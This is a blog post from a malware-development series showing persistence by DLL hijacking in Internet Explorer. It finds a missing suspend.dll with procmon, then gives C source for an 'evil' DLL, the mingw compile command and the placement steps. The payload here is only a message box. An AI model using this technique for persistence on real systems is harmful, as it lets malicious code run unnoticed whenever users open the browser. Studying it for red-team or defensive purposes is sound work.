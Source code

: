\newpage
\subsection{81. malware development: persistence - part 15. Internet Explorer. Simple C++ example.}

﷽


![pers](./images/75/2022-10-13_00-24_1.png){width="80%"}    

This post is the result of my own research into one of the interesting malware persistence trick: via Internet Explorer.     

### internet explorer

In one of my [previous posts](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html) I wrote about real world example of DLL hijacking. In this time the victim is Internet Explorer. Surely many of you do not even use it and are unlikely to deleted it on purpose from Windows system.    

### practical example

As in my previous post, let’s go to run [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, and setting the following filters:    

![pers](./images/75/2022-10-13_00-03.png){width="80%"}    

Then run `Internet Explorer`:     

![pers](./images/75/2022-10-13_00-04.png){width="80%"}    

![pers](./images/75/2022-10-13_00-04_1.png){width="80%"}    

As you can see, the process `iexplore.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `suspend.dll`:     

![pers](./images/75/2022-10-13_00-05.png){width="80%"}    

Let's go to search any other probably locations, maybe we have legit DLL:    

```powershell
cd C:\
dir /b /s suspend.dll
```

![pers](./images/75/2022-10-13_00-09.png){width="80%"}    

But as you can see, file not found so, this DLL is used by Internet Explorer only.    

Then, I prepared "evil" DLL, `meow-woof` messagebox:        

```cpp
/*
evil.c - malicious DLL
DLL hijacking. Internet Explorer
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, 
LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-woof!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

### demo

Let's go to see everything in action. Compiling our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![pers](./images/75/2022-10-13_00-12.png){width="80%"}    

Then naming the file `suspend.dll` and placing it in the directory where Internet Explorer is loaded:     

![pers](./images/75/2022-10-13_06-13.png){width="80%"}    

![pers](./images/75/2022-10-13_00-15.png){width="80%"}    

And finally try to run our victim application:     

![pers](./images/75/2022-10-13_00-16_1.png){width="80%"}    

![pers](./images/75/2022-10-13_00-18.png){width="80%"}    

![pers](./images/75/2022-10-13_00-24.png){width="80%"}    

After we close pop-up IE work correctly, not crashed:    

![pers](./images/75/2022-10-13_00-16.png){width="80%"}    

As you can see, it's worked. Perfect! =^..^=     

### conclusion

We now have achieved persistence via IE.    

That's why this post belongs to the persistence category, our malicious DLL will launch anytime user starts IE too. And, when they exit it too. Surprise for my windows lovers. You don't even have to install or remove anything.    

It's worked also on `Windows 11 x64`:     

![pers](./images/75/2022-10-13_06-37.png){width="80%"}    

Although it’s unlikely that anyone will launch IE in 2022, will you agree?    

As a Windows bug hunter, if you want to find privilege escalation vulnerabilities on the operating system itself, you’ll often want to start from a blank page, with a clean installation of Windows.      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-12-malware-pers-15)     
